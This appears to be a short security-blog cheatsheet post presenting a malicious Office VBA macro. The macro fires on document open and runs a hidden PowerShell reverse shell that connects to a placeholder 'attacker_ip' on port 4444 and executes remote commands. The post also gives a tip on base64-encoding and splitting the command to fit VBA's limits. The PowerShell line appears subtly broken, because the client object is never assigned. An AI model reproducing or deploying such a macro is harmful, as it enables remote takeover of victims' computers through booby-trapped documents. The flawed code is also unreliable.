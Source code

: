 ```yaml
---
layout: post
title: "Malicious Macros in Office"
date: 2024-06-09
categories: [CHEATSHEET]
---
```



Below is an example of a VBA macro designed to open a reverse shell on a Windows system:

  
```shell
Sub AutoOpen()
    OpenReverseShell
End Sub

Sub OpenReverseShell()
    Dim strShellPath As String
    strShellPath = "cmd.exe /c powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient('attacker_ip',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    Shell strShellPath
End Sub
```

  
> ***Note***:
>
> VBA supports a maximum string length of about 2 billion characters, which is typically more than sufficient for most macro scripts. However, the practical limits for a single line of code or string literals in VBA are much lower, usually around 1024 characters. This limit can impact the way scripts are written, particularly when embedding long shell commands or scripts directly into the VBA code; A workaround could be to base64 encode the command and concatenate it across multiple lines.

